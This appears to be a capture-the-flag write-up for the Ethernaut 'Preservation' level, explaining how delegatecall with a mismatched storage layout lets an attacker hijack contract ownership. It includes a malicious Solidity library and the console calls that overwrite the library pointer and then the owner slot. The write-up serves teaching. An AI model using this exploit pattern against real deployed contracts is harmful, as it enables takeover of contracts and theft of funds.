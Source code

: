 # Level 16: Preservation

## Challenge Overview

This challenge demonstrates how a contract that uses `delegatecall` can overwrite storage in the calling contract.  
The goal is to use the `delegatecall` in the `Preservation` contract to gain ownership.



## Solution

The `Preservation` contract uses `delegatecall` to call functions in its library contracts, inheriting the context of the `Preservation` contract.  
This makes it possible to overwrite its state variables by crafting a malicious library.



## Steps to Solve

### 1. Deploy a Malicious Library Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract MaliciousLibrary {
    // These three variables occupy slots 0, 1, and 2—matching Preservation’s layout:
    address public dummy0;  // slot 0 ← will be timeZone1Library
    address public dummy1;  // slot 1 ← will be timeZone2Library
    address public owner;   // slot 2 ← Preservation’s owner

    // When Preservation delegatecalls into this, "owner" (slot 2) is set to msg.sender
    function setTime(uint256 _time) public {
        owner = address(uint160(_time));
    }
}
```



### 2. Overwrite `timeZone1Library` in Preservation

```javascript
// In Ethernaut console:
// Convert the library address to a uint256 string:
const libUint = ethers.BigNumber.from(maliciousAddr).toString();

// Delegatecall into the genuine library’s setTime (slot 0), replacing it:
await contract.setFirstTime(libUint);

// Now, contract.timeZone1Library == maliciousAddr
```



### 3. Overwrite `owner` by Calling `setFirstTime` Again

```javascript
// Now Preservation’s delegatecall will use our malicious library.
// Pass your own EOA address as a uint256 to setTime:
const myUint = ethers.BigNumber.from(player).toString();
await contract.setFirstTime(myUint);

// In this delegatecall, MaliciousLibrary.setTime does:
//   owner = address(uint160(_time));
// Setting Preservation.owner = player
```

---

### 4. Verify that You Are Now the Owner

```javascript
console.log((await contract.owner()) === player); // → true
```



## Lessons Learned

- If the called code’s storage layout doesn’t match the caller’s, a malicious library can overwrite any slot (e.g., `owner`).  
  The `delegatecall` shares storage.

- Always ensure library contracts have no unused state or use the `library` keyword (no storage) to avoid mismatches.

- If an attacker can change your library pointer, they gain full control via `delegatecall`.

